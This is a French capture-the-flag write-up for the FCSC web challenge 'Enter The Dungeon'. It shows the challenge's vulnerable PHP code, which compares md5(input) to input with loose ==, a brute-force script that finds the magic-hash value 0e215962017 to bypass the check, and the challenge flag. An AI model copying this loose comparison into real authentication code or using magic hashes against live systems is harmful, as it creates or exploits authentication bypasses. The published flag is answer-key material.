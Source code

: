 # Enter The Dungeon - 25 pts


# Énoncé 
>On vous demande simplement de trouver le flag.
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5002/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge est un des premiers challenges WEB, et porte sur une faille de type PHP Loose Comparison.


## Résolution

C'est parti ! Dans un premier temps, j'ai jeté un oeil à la page web, on arrive sur une page avec un champ input. 

![rainbow](../images/dungeon.JPG)

Lorsqu'on submit quelque chose (à moins d'avoir beaucoup de chance) on arrive sur la page check_secret.php qui nous retourne "Wrong secret!".

Revenons à la page principale, dans le code source, on peut apercevoir 

```
<!-- Pour les admins : si vous pouvez valider les changements que j'ai fait dans la page "check_secret.php", le code est accessible sur le fichier "check_secret.txt" -->
```

On va donc sur cette page qui contient le code suivant (à priori celui de check_secret.php) :

```
[...]
if(md5($_GET['secret']) == $_GET['secret'])
{
	$_SESSION['dungeon_master'] = 1;
	echo "Secret is correct, welcome Master ! You can now enter the dungeon";
}
else
{
	echo "Wrong secret !";
}
[...]
```

On comprend qu'il s'agit d'une faille de type loose comparison. Le développeur du site croit vérifier que le hash md5 de l'input est égal à l'input, ce qui est impossible.
Cependant, il compare avec l'opérateur "==" de PHP, et non le "===". Son problème est que si celui-ci reçoit "0e1234" == "0e4321" par exemple, il va les considérer comme des nombres, ici 0^1234 == 0^4321. Le résultat sera donc vrai contrairement à ce qui est voulu.

On comprend donc qu'il nous faut trouver une valeur "0eXXXX" dont le hash md5 retourne également une chaine "0eYYY".

J'ai écrit un script PHP : 

```
<?php

for ($x = 0; $x <= 1000000000; $x++) {
	$val = "0e".$x;
    if(md5($val) == $val)
	{
		echo "Found a value!! $val";
	}
}
?>
```

Qui nous retourne rapidement : __Found a value!! 0e215962017__

On envoie donc cette valeur dans l'input puis on valide, la page nous indique que le secret est correct. Il suffit de revenir sur la page d'accueil, d'actualiser, et on obtient le message :

```
Félicitation Maître, voici le flag : FCSC{f67aaeb3b15152b216cb1addbf0236c66f9d81c4487c4db813c1de8603bb2b5b}
```

**FLAG :  _FCSC{f67aaeb3b15152b216cb1addbf0236c66f9d81c4487c4db813c1de8603bb2b5b}_**
